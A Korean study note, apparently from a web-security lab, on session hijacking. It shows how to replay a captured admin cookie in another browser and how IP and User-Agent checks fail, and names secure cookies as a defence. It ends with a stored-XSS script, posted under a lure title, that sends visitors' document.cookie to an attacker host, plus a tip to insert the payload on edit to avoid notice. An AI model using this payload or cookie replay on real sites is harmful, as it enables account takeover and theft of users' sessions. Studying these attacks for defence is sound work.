 

* 세션 하이재킹

해킹 머신의 firefox로 openeg에 접속 -> 도구 -> Live HTTP headers를 열어놓고 admin/openeg로 로그인하면 정보가 뜬다

![1](https://user-images.githubusercontent.com/20276476/76925119-ba5e5800-691b-11ea-9aa7-ecfe568bbe78.png)

cookie 부분을 복사



ie를 열어 openeg로 접속 후 위의 것을 클릭(cookie setting)

![2](https://user-images.githubusercontent.com/20276476/76925188-ee397d80-691b-11ea-847f-a861a585d39a.png)



복사한 것을 붙여놓고 앞의 cookie부분만을 지움

![3](https://user-images.githubusercontent.com/20276476/76925225-132df080-691c-11ea-999b-eef4fd4c075f.png)



set을 누르고 게시판을 누르면 admin으로 로그인 된다





사용자의 추가적인 확인이 필요하다

ip는 변동이 있을 수 있으므로 쓰기 힘들다

User-Agent 정보를 쓸 수 있다 ->  이것도 헤더에서 보고 바꿀 수 있기 때문에 쓸 수 없다.



그럼 어떻게?



application측에선 막을 방법이 없다

보안쿠키를 써야 함 ->script로 파싱이 되지 않는다



##### 링크 누르면 스크립트 돌아가서 쿠키 가져오기

쿠키 탈취하기(ASP게시판 사이트에서 쿠키를 받게 된다,이 사이트는 XSS 취약점이 있다)

1. 이해커가 ASP게시판에 다음과 같은 글을 올려 놓는다		

​	제목:공짜로 아이템 줍니다(유혹될 만한 글을 올린다)	

​	글 내용은 이렇게

```html
<div id='img'></div>	
<!-- 여기의 이미지를 가져온다 (a.do는 해커가 짜 놓은 것 - 밑의 java파일)-->
<script>document.getElementById("img").innerHTML="<img src='http://xxx.xxx.xxx.xxx:xxxx/openeg/test/a.do?	sessionid="+document.cookie+"' />";</script>
```

**(일반적인 내용으로 글을 먼저 등록한 뒤 수정시에 위 내용을 넣는다)**
